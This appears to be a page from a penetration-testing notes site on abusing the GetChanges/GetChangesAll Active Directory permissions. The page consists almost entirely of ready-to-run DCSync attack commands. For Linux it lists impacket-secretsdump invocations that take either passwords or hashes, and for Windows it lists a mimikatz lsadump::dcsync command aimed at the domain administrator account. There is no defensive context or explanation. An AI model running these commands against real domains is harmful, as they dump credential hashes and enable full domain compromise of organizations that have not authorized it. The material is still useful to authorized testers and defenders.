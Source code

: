 ```yaml
---
title: "GetChanges/GetChangesAll"
date: 2024-7-9
tags: ["GetChanges", "GetChangesAll", "dcsync", "secretsdump", "active driectory", "ad", "Windows"]
---
```


---
#### Abuse #1: DCSync Attack

{{< tab set1 tab1 active >}}Linux{{< /tab >}}
{{< tab set1 tab2 >}}Windows{{< /tab >}}
{{< tabcontent set1 tab1 >}}

<div>

```bash
# With creds
impacket-secretsdump -just-dc <USER>:<PASSWORD>@<TARGET>
```

```bash
# With hashes
impacket-secretsdump -hashes <LM>:<NT> -just-dc <DOMAIN>/<USER>@<TARGET>
```

</div>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

<div>

```powershell
.\mimikatz.exe 'lsadump::dcsync /domain:<DOMAIN> /user:administrator' exit
```

</div>

{{< /tabcontent >}}

<br>